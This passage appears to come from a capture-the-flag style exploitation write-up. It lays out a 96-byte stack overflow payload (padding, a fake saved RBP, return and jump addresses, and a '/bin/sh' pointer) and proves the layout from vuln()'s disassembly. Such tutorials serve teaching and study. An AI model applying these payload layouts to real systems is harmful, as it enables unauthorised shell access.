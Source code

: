 **Total payload size:** 64 + 8 + 8 + 8 + 8 = **96 bytes**

### Memory Layout After Stage 2 Overflow

```
Address                    | Content                    | Bytes from new_buf
---------------------------|----------------------------|-------------------
new_buf+0x00               | AAAA... (64 'A's)         | 0-63
---------------------------|----------------------------|-------------------
new_buf+0x40               | buf_addr + 0x70           | 64-71 (Saved RBP)
---------------------------|----------------------------|-------------------
new_buf+0x48               | 0x40101a                  | 72-79 (Return addr)
---------------------------|----------------------------|-------------------
new_buf+0x50               | 0x401218                  | 80-87 (Jump target)
---------------------------|----------------------------|-------------------
new_buf+0x58               | 0x402008                  | 88-95 ("/bin/sh") ⭐
```

**Note:** `new_buf = buf_addr - 0x8` (stack shifts between rounds)

---

## Proof of Stack Layout

### Question: How Do We Know the Stack Layout?

**Answer:** From the assembly code! Let me prove it step by step.

### Assembly Analysis

```asm
0000000000401231 <vuln>:
  401235:	push   rbp              ; STEP 1: Save old RBP (8 bytes)
  401236:	mov    rbp,rsp          ; STEP 2: RBP = RSP
  401239:	sub    rsp,0x40         ; STEP 3: Allocate 64 bytes for buffer
```

**Step-by-step stack changes:**

**Before vuln():**
```
After main() calls vuln(), stack has:
┌────────────────────────┐ ← RSP
│ Return Address (8)     │
└────────────────────────┘
```

**After `push rbp`:**
```
┌────────────────────────┐ ← RSP
│ Saved RBP (8)          │
├────────────────────────┤
│ Return Address (8)     │
└────────────────────────┘
```
